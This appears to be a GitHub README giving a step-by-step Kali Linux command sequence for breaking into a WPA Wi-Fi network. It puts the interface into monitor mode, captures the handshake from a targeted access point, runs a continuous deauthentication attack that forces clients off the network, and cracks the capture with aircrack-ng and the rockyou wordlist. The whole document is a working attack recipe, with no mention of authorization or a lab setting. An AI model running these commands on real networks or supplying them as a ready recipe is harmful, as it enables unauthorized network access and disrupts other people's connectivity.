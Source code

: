 # wifi-hacking-procedure-and-commands


Commands for wifi Hacking:
================
! See version of Kali

#cat /etc/os-release
#uname -a

! See interfaces
#ip addr
#iwconfig

!kill processes
#sudo airmon-ng check kill

!Start monitor mode
#sudo airmon-ng start wlan0

!Verify that monitor mode is used
#sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:
#iwconfig

! Get the AP's MAC address and channel
#sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:
#ESSID: 90:9A:4A:B8:F3:FB
#Channel used by AP for SSID: 2

!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
#sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack
!Make sure you replace the bssid with your own
#sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file
#wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
::: eapol

!Stop monitor mode
#airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist
!Make sure you have rockyou in text format (unzip file on Kali)
!Replace hack1-01.cap with your file name
#aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 

